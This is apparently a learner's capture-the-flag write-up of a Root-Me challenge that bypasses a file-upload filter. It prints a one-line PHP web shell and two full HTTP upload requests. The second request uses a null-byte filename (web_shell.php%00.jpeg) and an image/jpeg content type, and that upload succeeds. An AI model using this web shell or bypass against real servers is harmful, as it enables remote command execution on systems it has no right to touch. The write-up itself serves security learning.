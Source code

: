 # File upload - Null byte(%00)

Reference:

https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/

First, I made

web shell

```
<?php
    system($_GET(cmd))
?>
```

\->

sent request

```
POST /web-serveur/ch22/?action=upload HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------75027602138922587731498905318
Content-Length: 260
Origin: http://challenge01.root-me.org
Connection: close
Referer: http://challenge01.root-me.org/web-serveur/ch22/?action=upload
Cookie: PHPSESSID=bf96edb262cf6e4eabe229f5cef06c40; _ga_SRYSKX09J7=GS1.1.1662024800.33.1.1662024816.0.0.0; _ga=GA1.1.536088429.1661133467
Upgrade-Insecure-Requests: 1

-----------------------------75027602138922587731498905318
Content-Disposition: form-data; name="file"; filename="web_sh.php"
Content-Type: application/x-php

<?php
    system($_GET[cmd]);
?>

-----------------------------75027602138922587731498905318--
```

\->

modified Content-Type: image/jpeg

not working

\->

`<li>Stored in: <a href='./galerie/upload/bf96edb262cf6e4eabe229f5cef06c40/web_sh.php'>./galerie/upload/bf96edb262cf6e4eabe229f5cef06c40/web_sh.php</a></li></ul><p style='color: red'>Wrong extension !</p>`

\->

Then I search the web , found out that **null byte is used for input termination**

\->

then in order to bypass filter: it must have jpeg extension. while it should be activated: it must have php in it. then use null byte to the filter to quit reading extension at jpeg. mv web\_sh.php web\_sh.php%00.jpeg

\->

```
POST /web-serveur/ch22/?action=upload HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------3610358801751984432588826005
Content-Length: 262
Origin: http://challenge01.root-me.org
Connection: close
Referer: http://challenge01.root-me.org/web-serveur/ch22/?action=upload
Cookie: PHPSESSID=bf96edb262cf6e4eabe229f5cef06c40; _ga_SRYSKX09J7=GS1.1.1662024800.33.1.1662024816.0.0.0; _ga=GA1.1.536088429.1661133467
Upgrade-Insecure-Requests: 1

-----------------------------3610358801751984432588826005
Content-Disposition: form-data; name="file"; filename="web_shell.php%00.jpeg"
Content-Type: image/jpeg

<?php
    system($_GET[cmd]);
?>

-----------------------------3610358801751984432588826005--
```

\->

file is then uploaded
